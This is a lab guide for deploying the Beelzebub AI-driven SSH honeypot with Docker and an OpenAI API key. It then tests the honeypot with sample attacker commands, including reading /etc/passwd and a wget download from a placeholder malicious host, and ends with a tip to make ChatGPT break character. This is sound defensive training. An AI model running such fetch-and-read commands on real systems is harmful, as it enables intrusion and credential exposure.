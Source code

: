 Beelzebub is an advanced honeypot framework designed to provide a highly secure environment for detecting and analyzing cyber attacks. It offers a low code approach for easy implementation and uses AI to mimic the behavior of a high-interaction honeypot

>[!IMPORTANT]
>
>You can find the original GitHub of at [Beelzebub Repo](https://github.com/mariocandela/beelzebub)

# Setup
Participants will deploy and monitor an AI-powered SSH honeypot (Beelzebub) to detect and analyze attacker behavior in real time

```bash
sudo su -
```
```bash
apt update && apt upgrade -y
```
```bash
systemctl enable --now docker
```
```bash
cd /opt
```
```bash
git clone https://github.com/mariocandela/beelzebub.git
```

### Get the ChatGPT Api Key
- Go to [ChatGPT](https://chatgpt.com/) and create an account if you don’t have one
- Make sure you have credits or a payment method at [Billing Setting](https://platform.openai.com/settings/organization/billing/overview)
- Go to [API Keys](https://platform.openai.com/api-keys) and create a new key
- Save this key as you will only see it once!

### Deployment
- Make sure you are into **/opt/beelzebub/**
```bash
nano docker-compose.yml
```
 - Put your key here
<img width="446" height="71" alt="image" src="https://github.com/user-attachments/assets/5f407ef9-759e-4eec-8d97-98ef396dc30d" />

- Also comment the **Default SSH Mapping**(ssh 22 port)
<img width="202" height="84" alt="image" src="https://github.com/user-attachments/assets/4375696b-89c3-45a6-afd9-d2f5a549168e" />

```bash
cd configurations/services/
```
```bash
mv ./ssh-22.yaml ~
```
```bash
nano ./ssh-2222.yaml
```
 - Add your key with double quotes around it like `OPENAI_API_KEY: "your_api_key_here"`
```bash
cd /opt/beelzebub/
```
```bash
docker-compose build
```
```bash
docker-compose up -d
```

# Try it
Connect to it like this:

```bash
ssh -p 2222 root@127.0.0.1
``` 
- use password "**1234**"
- Try using any commands like **ls** or **id**
<img width="659" height="126" alt="image" src="https://github.com/user-attachments/assets/914c1f89-c3d0-412d-bae6-7b9fcee70d9e" />

Everything you see is AI generated, and that's what an attacker would see

Cool, right?

- Try running suspicious commands an attacker would use
```bash
uname -a
```
```bash
cat /etc/passwd
```
```bash
wget http://malicious.example/malware.sh
```
```bash
id
```
Now exit the session to export the logs

```bash
cd /opt/beelzebub/
```
```bash
docker-compose logs -f
```
```bash
docker-compose logs > honeypot.log
```

Take your time into analyzing the logs and seeing how they are being built

>[!TIP]
>
>Try to make ChatGPT break character, this method, like anything else in cybersecurity isn't flawless, but it surely tricks hackers and does its job, **to increase Attack Time**



